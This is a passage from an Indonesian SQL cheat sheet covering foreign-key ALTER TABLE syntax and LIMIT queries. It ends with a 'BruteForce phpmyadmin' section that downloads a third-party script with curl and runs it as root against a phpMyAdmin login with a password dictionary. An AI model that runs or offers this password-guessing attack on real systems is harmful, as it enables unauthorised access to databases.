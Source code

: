ADD FOREIGN KEY (NamaField) 
REFERENCES NamaTabelKunci(NamaField); 
```

#### Alter Table on FOREIGN KEY (constraint)
```
ALTER TABLE NamaTabelSekarang
ADD CONSTRAINT FK_NamaField
FOREIGN KEY (NamaField) REFERENCES NamaTabelKunci(NamaField); 
```

#### Limit Data
```
SELECT * FROM nama_tabel LIMIT 30
```

### BruteForce phpmyadmin
```
curl https://raw.githubusercontent.com/safflower/phpmyadmin-authentication-bruteforce/master/main.py > main.py
```
```
python3 main.py -url http://example.com/pma/ -user root -dict password.txt
```
Bisa dilihat link dibawah ini :
https://github.com/safflower/phpmyadmin-authentication-bruteforce



### Terima Kasih
